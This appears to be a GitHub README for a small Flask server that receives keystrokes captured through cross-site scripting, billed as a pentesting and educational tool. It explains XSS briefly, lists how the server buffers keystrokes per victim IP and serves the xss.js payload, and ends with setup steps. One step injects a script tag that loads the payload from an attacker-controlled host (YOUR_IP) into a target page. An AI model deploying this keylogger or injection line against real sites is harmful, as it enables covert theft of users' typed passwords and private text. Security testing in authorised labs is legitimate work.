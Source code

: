 # Simple Flask Keylogger for XSS

## Overview
This is a minimal Flask application designed for pentesting and educational purposes. It captures keystrokes sent via XSS payloads and prints the reconstructed typed text to the console. The app groups keystrokes based on a configurable idle timeout to help reconstruct words and sentences typed by the user.

---

## What is XSS?

Cross-Site Scripting (XSS) is a security vulnerability typically found in web applications that allows attackers to inject malicious scripts into webpages viewed by other users. By injecting JavaScript, an attacker can capture user inputs such as keystrokes, cookies, or other sensitive data. This app simulates the backend to capture such keystroke data sent from a victim’s browser during an XSS attack for lab/testing purposes only.

---

## Features

- Listens for incoming HTTP GET requests containing keystrokes as query parameters.
- Buffers keystrokes per client IP and prints the buffered string after a configurable idle timeout.
- Serves the JavaScript payload (`xss.js`) from the same Flask server.
- Prints captured keystrokes with timestamps to the console in grouped bursts.

---

## Usage

1. Clone this repository.
2. Install dependencies:
   ```pip install flask```
3. Run the Flask app (default port 80):
  ```sudo python3 app.py```
4. Inject the following script tag on your target page (adjust IP/port as needed):
  ```<script src="http://YOUR_IP/xss.js"></script>```
